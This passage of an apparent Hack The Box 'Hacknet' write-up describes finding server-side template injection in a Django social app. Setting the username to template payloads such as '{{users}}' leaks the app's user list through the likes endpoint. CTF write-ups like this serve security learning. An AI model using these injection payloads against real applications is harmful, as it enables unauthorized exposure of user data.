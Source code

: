 ### Initial Testing Approach
We can edit our user profile and upload a profile picture. Testing for insecure file upload vulnerabilities yielded no results.

Next, we tested various vulnerabilities on each modifiable profile field (username and email). Something strange occurred - the server responded with 500 error codes for certain payloads.

### The Breakthrough: Like System Analysis
During application exploration, we discovered these key endpoints:
- `GET /like/<POST_ID>` - Makes a like on a post
- `GET /likes/<POST_ID>` - Lists all users that liked the post

Something strange appeared in the title field corresponding to my username - there was whitespace where other users had their actual usernames:

![Username Field Anomaly](../assets/blog/HTB-Hacknet/image2.png)

### SSTI Discovery Process
I realized that the SSTI payload `{ %debug% }` was actually being rendered (but showing nothing visible). Since that field renders the username from Django, I tested again by changing my username to `{{users}}` and made a request to see the likes.

**Bingo!** The template was processed:

```html
</div><div class="likes-review-item"><a href="/profile/28"><img src="/media/PNG_transparency_demonstration_1.png" title="&lt;QuerySet [&lt;SocialUser: cyberghost&gt;, &lt;SocialUser: rootbreaker&gt;, &lt;SocialUser: zero_day&gt;, &lt;SocialUser: cryptoraven&gt;, &lt;SocialUser: bytebandit&gt;, &lt;SocialUser: datadive&gt;, &lt;SocialUser: phreaker&gt;, &lt;SocialUser: netninja&gt;, &lt;SocialUser: darkseeker&gt;, &lt;SocialUser: trojanhorse&gt;, &lt;SocialUser: exploit_wizard&gt;, &lt;SocialUser: whitehat&gt;, &lt;SocialUser: virus_viper&gt;, &lt;SocialUser: brute_force&gt;, &lt;SocialUser: {{users}}&gt;]&gt;"></a></div>
```
